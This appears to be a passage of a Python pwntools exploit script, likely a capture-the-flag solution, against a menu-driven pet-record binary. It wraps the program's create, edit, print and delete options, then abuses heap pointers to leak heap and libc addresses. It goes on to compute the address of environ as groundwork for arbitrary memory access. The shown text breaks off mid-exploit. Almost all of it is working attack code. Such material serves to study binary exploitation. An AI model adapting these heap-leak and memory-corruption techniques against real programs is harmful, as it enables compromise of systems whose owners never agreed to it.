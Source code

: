 ```python
        r.send('0001')
    if name == '':
        r.sendlineafter('>', '')
        r.sendlineafter('>', '')
    else:
        r.send(name.ljust(0x16, '\x00'))
        r.send(kind.ljust(0x16, '\x00'))
    r.send(str(age).rjust(4, '0'))

def edit(idx, name, kind, age, modify, sp=1):
    r.send('0002')
    r.send(str(idx).rjust(4, '0'))
    if sp:
        r.recvrepeat(1)
        r.sendline(name)
        r.sendlineafter('>', kind)
    else:
        r.send(name.ljust(0x16, '\x00'))
        r.send(kind.ljust(0x16, '\x00'))
    r.send(str(age).rjust(4, '0'))
    r.send(modify.ljust(4, '\x00'))

def print_one(idx):
    r.recvrepeat(2)
    r.send('0003')
    r.sendlineafter('>', str(idx))
    return r.recvuntil('---', drop=True)

def delete(idx):
    r.send('0005')
    r.send(str(idx).rjust(4, '0'))

create('a'*0x10, 'a'*0x10, 1)
create('a'*0x10, 'a'*0x10, 1)
#create('a'*0x10, 'a'*0x10, 1)
create(flat(0, 0x21), flat(0, 0x21), 1)
create('a'*0x10, 'a'*0x10, 1)
create('a'*0x10, 'a'*0x10, 1)
create('a'*0x10, 'a'*0x10, 1)
delete(4)
delete(5)
# set ptr
edit(0, 'b', 'b', 2, 'n')
create('', '', 1)
edit(0, 'b', 'b', 2, 'n', sp=1)
x = print_one(4)
xx = re.findall('kind: (.*)\nold', x)[0]
heap = u64(xx.ljust(8, '\x00')) - 0x180
print 'heap:', hex(heap)
create('a', flat(heap+0x10, heap+0x70), 1)
edit(0, 'b', 'b', 2, 'n')

create(flat(0x602010), 'a', 1)
x = print_one(0)
xx = re.findall('name: (.*)\nkind', x)[0]
#libc = u64(xx.ljust(8, '\x00')) - 0x3a6870
libc = u64(xx.ljust(8, '\x00')) - 0x3e1870
print 'libc:', hex(libc)

delete(6)
#environ = libc + 0x38bf98
environ = libc + 0x3c6f38
create(flat(heap+0x10, heap+0x30), flat(environ, heap+0x30), 1)
```